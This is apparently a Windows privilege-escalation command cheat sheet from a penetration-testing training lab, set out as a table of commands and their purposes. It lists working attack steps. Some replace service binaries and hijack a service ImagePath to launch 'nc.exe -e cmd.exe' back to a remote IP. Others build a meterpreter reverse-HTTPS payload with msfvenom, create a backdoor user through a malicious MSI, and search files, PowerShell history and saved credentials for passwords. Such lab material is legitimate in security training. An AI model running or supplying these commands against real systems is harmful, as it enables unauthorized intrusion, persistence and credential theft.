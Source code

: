 | ``.\SharpUp.exe audit`` | Running SharpUp |

| ``icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`` | Checking service permissions with icacls |

| ``cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`` | Replace a service binary |

| ``wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """`` | Searching for unquoted service paths |

| ``accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`` | Checking for weak service ACLs in the Registry |

| ``Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`` | Changing ImagePath with PowerShell |

| ``Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`` | Check startup programs |

| ``msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`` | Generating a malicious binary |

| ``get-process -Id 3324`` | Enumerating a process ID with PowerShell |

| ``get-service \| ? {$_.DisplayName -like 'Druva*'}`` | Enumerate a running service by name with PowerShell |

| ``reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`` | Query registry to see if Always Install Elevated is set. If so Can create a malicious msi using PowerUp.ps1 |

| ``Import-Module .\PowerUp.ps1 & Write-UserAddMSI`` | Import [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) and create malicious msi to create backdoor user |

| ``runas /user:backdoor cmd`` | Run as created user, in this case backdoor |

| ``findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`` | Search for files with the phrase "password" |

| ``gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password`` | Searching for passwords in Chrome dictionary files |

| ``(Get-PSReadLineOption).HistorySavePath`` | Confirm PowerShell history save path |

| ``gc (Get-PSReadLineOption).HistorySavePath`` | Reading PowerShell history file |

| ``$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`` | Decrypting PowerShell credentials |

| ``cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`` | Searching file contents for a string |

| ``findstr /si password *.xml *.ini *.txt *.config`` | Searching file contents for a string |

| ``findstr /spin "password" *.*`` | Searching file contents for a string |

| ``select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`` | Search file contents with PowerShell |

| ``dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`` | Search for file extensions |
